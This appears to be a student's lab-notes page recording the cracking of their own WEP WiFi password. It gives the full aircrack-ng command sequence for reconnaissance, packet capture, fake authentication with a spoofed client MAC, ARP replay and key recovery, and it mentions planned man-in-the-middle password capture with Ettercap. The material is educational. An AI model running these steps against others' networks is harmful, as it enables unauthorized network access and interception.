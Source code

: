 ##27/11/2015

Hacked WiFi for the first time!

![FOTO](http://i.imgur.com/PP0AThP.png)

We were succesfully able to crack our WEP password.
We followed the tuturial @ Pluralsight

We made use of the Alfa that was availabe @ school.

#Steps/Commands

###Wireless Reconnaiccance:
**Window 1**
* iwconfig
* airmon-ng start wlan0
* airodump-ng "INTERFACE"
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

###Wireless Equivalent Privacy(WEP):
**Window 1**
* airmon-ng
  * Find "INTERFACE"
* airodump-ng "INTERFACE"
* Find information in table
	
**New window 2**
* airodump-ng --bssid "BSSID" -c "Channel" -w wep_log "INTERFACE"

**New window 3** 
* ifconfig 
* Find own MAC

**New window 4**
* aireplay-ng -1 0 -a "BSSID" -h "client MAC" -e "name connection" "INTERFACE" --ignore-negative-one
* aireplay-ng -3 -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one

**New window 5**
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one
* Use this packet? ENTER

**Window 2** 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

**First window**	
* clear
* aircrack-ng -a 1(is één) -b "BSSID" -n 64 wep_log-01.cap
	
**_FIND PASSWORD!!!!_**

</br>
</br>

**Problems**
The first time I dind't work. This was because nobody was connected to our WiFi (TinneBrecht). For the hack to succeed, there has to be a host connected. This is because we need traffic on the network. Hoe meer verkeer, hoe makkelijker we de IV's kunnen kraken (TODO vertaal). When there is someone on the network we (attacker) will spoof his MAC adress so the access point thinks we are the computer (host). Now we can also send packets to the access point to speed up the hack!

Sources:

- Pluralsight video
- [LINK](http://null-byte.wonderhowto.com/how-to/hack-wi-fi-cracking-wep-passwords-with-aircrack-ng-0147340/)


Next time: Writing a script!

TODO: 
- Bash scripting...
- Ethercap opzoeken (Hoe wachtwoorden "vangen" !?) -> Man in the middle attack
